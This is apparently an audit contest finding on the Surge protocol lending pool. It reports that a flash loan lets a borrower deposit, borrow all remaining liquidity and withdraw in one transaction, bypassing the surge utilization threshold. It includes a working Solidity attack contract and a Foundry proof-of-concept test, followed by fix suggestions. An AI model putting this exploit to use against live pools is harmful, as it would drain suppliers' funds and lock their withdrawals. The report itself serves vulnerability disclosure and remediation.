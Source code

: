 shaka

high

# Users can borrow all loan tokens

## Summary

Utilization rate check can be bypassed depositing additional loan tokens and withdrawing them in the same transaction.

## Vulnerability Detail

In the `borrow` function it is checked that the new utilization ratio will not be higher than the _surge threshold_. This threshold prevents borrowers from draining all available liquidity from the pool and also trigger the _surge state_, which lowers the collateral ratio. 

A user can bypass this and borrow all available loan tokens following these steps: 
- Depositing the required amount of loan tokens in order to increase the balance of the pool.
- Borrow the remaining loan tokens from the pool.
- Withdraw the loan tokens deposited in the first step.

This can be done in one transaction and the result will be a utilization rate of 100%. Even if the liquidity of the pool is high, the required loan tokens to perform the strategy can be borrowed using a flash loan.

## Impact

The vulnerability allows to drain all the liquidity from the pool, which entails two problems:
- The collateral ratio starts decreasing and only stops if the utilization ratio goes back to the surge threshold.
- The suppliers will not be able to withdraw their tokens. 

The vulnerability can be executed by the same or other actors every time a loan is repaid or a new deposit is done, tracking the mempool and borrowing any new amount of loan tokens available in the pool, until the collateral ratio reaches a value of zero.

A clear case with economic incentives to perform this attack would be that the collateral token drops its price at a high rate and borrow all the available loan tokens from the pool, leaving all suppliers without the chance of withdrawing their share.

## Code Snippet
https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L477-L478

## Proof of concept

Helper contract:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import { FlashBorrower, Flashloan, IERC20Token } from "./FlashLoan.sol";
import { Pool } from "./../../src/Pool.sol";

contract Borrower is FlashBorrower {
    address public immutable owner;
    Flashloan public immutable flashLoan;
    Pool public immutable pool;
    IERC20Token public loanToken;

    constructor(Flashloan _flashLoan, Pool _pool) {
        owner = msg.sender;
        flashLoan = _flashLoan;
        pool = _pool;
        loanToken = IERC20Token(address(_pool.LOAN_TOKEN()));
    }

    function borrowAll() public returns (bool) {
        // Get current values from pool
        pool.withdraw(0);
        uint loanTokenBalance = loanToken.balanceOf(address(pool));
        loanToken.approve(address(pool), loanTokenBalance);

        // Execute flash loan
        flashLoan.execute(FlashBorrower(address(this)), loanToken, loanTokenBalance, abi.encode(loanTokenBalance));
    }

    function onFlashLoan(IERC20Token token, uint amount, bytes calldata data) public override {
        // Decode data
        (uint loanTokenBalance) = abi.decode(data, (uint));

        // Deposit tokens borrowed from flash loan, borrow all other LOAN tokens from pool and
        // withdraw the deposited tokens
        pool.deposit(amount);
        pool.borrow(loanTokenBalance);
        pool.withdraw(amount);

        // Repay the loan
        token.transfer(address(flashLoan), amount);

        // Send loan tokens to owner
        loanToken.transfer(owner, loanTokenBalance);
    }
}
```

Execution:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "../src/Pool.sol";
import "../src/Factory.sol";
import "./mocks/Borrower.sol";
import "./mocks/ERC20.sol";

contract PoC is Test {
    address alice = vm.addr(0x1);
    address bob = vm.addr(0x2);
    Factory factory;
    Pool pool;
    Borrower borrower;
    Flashloan flashLoan;
    MockERC20 collateralToken;
    MockERC20 loanToken;
    uint maxCollateralRatioMantissa;
    uint surgeMantissa;
    uint collateralRatioFallDuration;
    uint collateralRatioRecoveryDuration;
    uint minRateMantissa;
    uint surgeRateMantissa;
    uint maxRateMantissa;

    function setUp() public {
        factory = new Factory(address(this), "G");
        flashLoan = new Flashloan();
        collateralToken = new MockERC20(1 ether, 18);
        collateralToken.transfer(bob, 1 ether);
        loanToken = new MockERC20(100 ether, 18);
        loanToken.transfer(alice, 1 ether);
        loanToken.transfer(address(flashLoan), 99 ether);
        maxCollateralRatioMantissa = 1e18;
        surgeMantissa = 0.8e18; // 80%
        pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), maxCollateralRatioMantissa, surgeMantissa, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
    }

    function testFailBorrowAll() external {
        // Alice deposits 1 LOAN token
        vm.startPrank(alice);
        loanToken.approve(address(pool), 1 ether);
        pool.deposit(1 ether);
        vm.stopPrank();

        // Bob tries to borrow all available loan tokens
        vm.startPrank(bob);
        collateralToken.approve(address(pool), 1 ether);
        pool.addCollateral(bob, 1 ether);
        pool.borrow(1 ether);
        vm.stopPrank();
    }

    function testBypassUtilizationRate() external {
        uint balanceBefore = loanToken.balanceOf(bob);

        // Alice deposits 1 LOAN token
        vm.startPrank(alice);
        loanToken.approve(address(pool), 1 ether);
        pool.deposit(1 ether);
        vm.stopPrank();

        // Bob tries to borrow all available loan tokens
        vm.startPrank(bob);
        collateralToken.approve(address(pool), 1 ether);
        borrower = new Borrower(flashLoan, pool);
        pool.addCollateral(address(borrower), 1 ether);
        borrower.borrowAll();
        vm.stopPrank();

        assertEq(loanToken.balanceOf(bob) - balanceBefore, 1 ether);
    }
}
```

## Tool used

Manual Review

## Recommendation

A possible solution would be adding a locking period for deposits of loan tokens.

Another possibility is to enforce that the utilization rate was under the surge rate also in the previous snapshot.